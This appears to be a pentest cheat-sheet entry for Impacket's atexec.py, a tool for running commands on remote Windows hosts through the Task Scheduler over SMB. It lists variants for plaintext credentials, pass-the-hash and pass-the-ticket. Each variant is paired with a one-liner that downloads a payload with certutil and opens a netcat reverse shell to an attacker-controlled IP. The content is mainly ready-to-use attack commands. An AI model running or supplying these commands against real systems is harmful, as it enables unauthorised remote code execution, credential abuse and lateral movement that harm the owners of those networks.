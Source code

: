# atexec.py (imp)

%  windows, impacket-exec
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  

## desc
```
Execute command view the task scheduler (using \pipe\atsvc via SMB)
```

## execute (creds)
certutil.exe -urlcache -split -f http://<server>/<source_file> <dest_file>; nc.exe <ip> <port> -e cmd.exe>
```bash
atexec.py -debug <domain_fqdn>/<user>:'<password>'@<target_fqdn> <cmd>
```

## execute (pth)
certutil.exe -urlcache -split -f http://<server>/<source_file> <dest_file>; nc.exe <ip> <port> -e cmd.exe>
```bash
atexec.py -debug -hashes :<nt_hash>  <domain_fqdn>/<user>@<target_fqdn> <cmd>
```

## execute (ptt)
certutil.exe -urlcache -split -f http://<server>/<source_file> <dest_file>; nc.exe <ip> <port> -e cmd.exe>
```bash
KRB5CCNAME=<ccache> atexec.py -no-pass -k <target_fqdn> <cmd></cmd>
```